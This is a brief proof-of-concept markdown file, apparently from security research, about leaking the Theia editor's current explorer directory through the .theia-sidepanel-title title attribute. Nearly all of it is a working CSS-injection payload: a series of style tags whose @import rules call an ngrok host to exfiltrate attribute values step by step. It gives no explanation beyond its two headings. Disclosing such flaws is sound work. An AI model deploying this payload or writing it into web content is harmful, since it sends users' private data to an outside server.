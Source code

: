 # POC: Leaking attribute values
## Leaking the Editor's explorer current directory from .theia-sidepanel-title[title]

<p><style>@import url(https://798d9e3ab09d.ngrok.io/1); </style><style> @import url(https://798d9e3ab09d.ngrok.io/2); </style><style> @import url(https://798d9e3ab09d.ngrok.io/3)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/4)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/5)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/6)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/7)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/8)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/9)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/10)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/11)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/12)  ;</style><style> @import url(https://798d9e3ab09d.ngrok.io/13)  ;</style>
